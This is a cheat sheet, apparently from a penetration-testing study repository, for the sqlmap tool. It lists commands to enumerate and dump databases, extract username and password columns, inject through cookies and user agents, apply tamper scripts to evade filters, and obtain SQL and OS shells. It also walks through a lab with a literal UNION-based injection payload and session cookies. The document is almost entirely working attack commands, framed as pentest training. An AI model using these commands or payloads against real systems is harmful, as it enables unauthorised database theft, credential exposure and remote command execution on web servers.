





# Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" --data="username=admin&password=admin&submit=Submit" -D social_mccodes -T users --dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper --banner</pre>

**Get Req Example**
<pre>sqlmap -u "url/ajax.php?fun=login&username=test&password=test" --keep-alive</pre>

**Post Req Example**

<pre>sqlmap -u "url" --data="fun=login&username=test&password=test"</pre>

# SQL Lab

## Example 1 with GET

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title

Copy payload to burp suit (optional)

    Payload: title=hello' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a7671,0x4e50594a4d45724a614a474466694352614b6c4a6241657a686c6c597665586c6e58775355564776,0x7162766b71),NULL,NULL,NULL#&action=search

## Example 2 with POST

    sqlmap -u "http://demo.ine.local/sqli_6.php" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" --data "title=hello&action=search" -p title

### OR

From burp suite ave the file as "request".

    sqlmap -r request -p title

Additionally, we can gain an os shell using sqlmap's

    sqlmap -r request -p title --os-shell

 

# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**
